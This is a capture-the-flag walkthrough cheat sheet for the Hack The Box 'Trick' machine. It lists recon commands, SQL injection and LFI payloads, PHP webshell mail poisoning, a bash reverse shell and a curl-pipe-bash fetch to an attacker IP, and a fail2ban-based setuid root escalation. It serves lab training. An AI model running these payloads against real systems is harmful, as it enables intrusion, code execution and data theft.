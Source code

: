 # 🧙 HTB: Trick – Walkthrough Command Notes

---

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🔍 Recon

### Nmap Full Scan
```bash
nmap -p- --min-rate 10000 10.10.11.166
nmap -p 22,25,53,80 -sCV 10.10.11.166
```

### DNS Recon
```bash
dig +noall +answer @10.10.11.166 trick.htb
dig +noall +answer @10.10.11.166 -x 10.10.11.166
dig axfr trick.htb @10.10.11.166
```

### Subdomain Fuzz
```bash
wfuzz -u http://10.10.11.166 -H "Host: FUZZ.trick.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 5480

# Looking for preprod-* subdomains:
wfuzz -u http://10.10.11.166 -H "Host: preprod-FUZZ.trick.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 5480
```

---

## 📨 [SMTP](SMTP.md) Enumeration

### Manual
```bash
telnet 10.10.11.166 25
VRFY root
VRFY michael
```

### Automated
```bash
smtp-user-enum -m VRFY -U /usr/share/seclists/Usernames/cirt-default-usernames.txt -t 10.10.11.166
```

---

## 📂 Web Enumeration

### Feroxbuster
```bash
feroxbuster -u http://trick.htb -x php
```

---

## 💉 Auth Bypass & SQL Injection

### SQL Bypass Payload
```sql
username=' OR 1=1-- -
```

### sqlmap Usage
```bash
# Basic
sqlmap -r login.req --batch --technique=B --level 5

# Dump user table
sqlmap -r login.req --batch --threads 10 -D payroll_db -T users --dump

# File Read
sqlmap -r login.req --batch --threads 10 --file-read=/etc/passwd
sqlmap -r login.req --batch --threads 10 --file-read=/etc/nginx/sites-enabled/default
```

---

## 🌐 preprod-marketing.trick.htb - LFI

### Basic LFI Payload
```http
?page=....//....//....//....//etc/passwd
```

### Mail Poisoning via PHP Include
```bash
swaks --to michael --from attacker@htb.local \
--header "Subject: trick" --body "<?php system($_REQUEST['cmd']); ?>" \
--server 10.10.11.166
```

Then access:
```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//var/mail/michael&cmd=id
```

---

## 🐚 Reverse Shell (via mail or logs)

### Bash Reverse Shell Payload
```bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

### Send via curl
```bash
swaks --to michael --from attacker@htb \
--body "<?php system('curl http://10.10.14.6/shell | bash'); ?>" \
--server 10.10.11.166
```

### Listener
```bash
nc -lnvp 443
```

---

## 🔐 SSH Access as michael

### Save Private Key
Paste into `~/keys/trick-michael`, then:
```bash
chmod 600 ~/keys/trick-michael
ssh -i ~/keys/trick-michael michael@trick.htb
```

---

## 🛡️ PrivEsc: fail2ban Exploit

### Enumerate fail2ban Config
```bash
sudo -l
cat /etc/fail2ban/jail.conf
cat /etc/fail2ban/action.d/iptables-multiport.conf
```

### Overwrite Action
Edit `/etc/fail2ban/action.d/iptables-multiport.conf`:
```bash
actionban = cp /bin/bash /tmp/rootbash; chmod 4777 /tmp/rootbash
```

### Restart fail2ban
```bash
sudo /etc/init.d/fail2ban restart
```

### Trigger Ban from Attacker Box
```bash
crackmapexec ssh trick.htb -u user -p /usr/share/wordlists/rockyou.txt
```

### Root Shell via SetUID Bash
```bash
/tmp/rootbash -p
id
```

---

## 🏁 Flags

```bash
# As michael
cat ~/user.txt

# As root
cat /root/root.txt
```